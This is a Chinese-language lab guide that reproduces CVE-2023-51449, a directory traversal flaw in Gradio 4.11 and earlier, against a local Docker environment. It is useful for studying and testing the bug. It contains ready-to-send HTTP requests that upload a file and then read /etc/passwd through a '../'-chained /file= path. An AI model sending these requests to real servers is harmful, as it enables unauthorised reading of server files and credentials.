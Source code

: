 # Gradio 目录穿越漏洞（CVE-2023-51449）

Gradio是一个Python库，允许用户无需编写前端代码即可为机器学习模型快速构建可视化Web界面。

在 Gradio 4.11 及更早版本中，如果未启用身份验证，知道文件路径的攻击者可以使用公共URL访问运行Gradio应用程序的服务器上的任意文件。

参考链接：

- <https://github.com/gradio-app/gradio/pull/6833>
- <https://github.com/gradio-app/gradio/security/advisories/GHSA-6qm2-wpxq-7qh2>

## 环境启动

执行如下命令启动一个由Gradio 4.10.0编写的应用：

```
docker compose up -d
```

环境启动后，默认未开启身份验证。你可以通过`http://your-ip:7860`访问该应用。

## 漏洞复现

首先，使用upload接口上传任意文件，获取一个可访问的文件路径。

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--
```

![](1.png)

获得可访问的文件路径后，利用file接口配合目录穿越，即可读取服务器上的任意文件，例如`/etc/passwd`：

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip

```

![](2.png)

